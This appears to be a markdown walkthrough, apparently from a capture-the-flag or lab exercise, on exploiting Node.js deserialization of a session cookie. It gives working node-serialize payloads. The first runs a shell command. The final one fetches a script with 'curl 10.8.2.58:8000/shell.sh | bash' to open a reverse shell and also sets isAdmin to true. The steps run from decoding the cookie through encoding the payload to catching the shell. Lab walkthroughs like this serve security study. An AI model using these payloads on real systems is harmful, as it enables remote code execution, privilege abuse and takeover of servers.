 # Javascript Vulnerabilities
## Javascript Deserializaiton
- Notice the assigned session cookie
- ![alt text](https://miro.medium.com/max/2400/1*ewfMSwChAJIydTBUx9gOCw.png)
- Attempt to decode the cookie in the `decoder` tab
- ![alt text](https://miro.medium.com/max/2400/1*_XIvf6iVoSmg026Ls7fLyQ.png)
- Attempt to modify the cookie by either
````
Cut the cookie in half to see if you can create a server error
Change the cookies values as seen below
````
- ![alt text](https://miro.medium.com/max/2400/1*-O0ze1yZRIpR9WQ1puhE0g.png)
- ![alt text](https://miro.medium.com/max/2400/1*aPfPEful30HcpOB1aj6FEA.png)
- When we cut the cookie in half we get a server error 
- ![Screenshot 2021-08-20 082329](https://user-images.githubusercontent.com/75596877/130232573-bc6fec6d-23a5-4e57-8e1e-e950e4c377df.png)
- We see that the web application is trying to unserialize the session cookie but it’s getting an error.
- Node Js de-serialization vulnerability is the easiest to exploit since the payload doesn’t change that much
- ![alt text](https://miro.medium.com/max/2400/1*7CG1m4g4Sog0f3KGB9hWrA.png)
- We will modify the following payload a bit to get it working
````
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}
````
- Encode the cookie and see if that payload works to get command injection
- ![alt text](https://miro.medium.com/max/2400/1*V90bBMrFvszV9S-o99P5tQ.png)
- Create a reverse shell script and make sure to `chmod +x` the script
- Final Payload
````
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.8.2.58:8000/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}
````
- Start your listener
- Encode the payload to `Base64` and then `URL Encode`
- ![alt text](https://miro.medium.com/max/2400/1*mQMiB6s96Inix_0O12lGEQ.png)
- ![alt text](https://miro.medium.com/max/2400/1*G8JcV1V1338iuPhrr2x3rg.png)
- Send the request, and get a rev shell!















































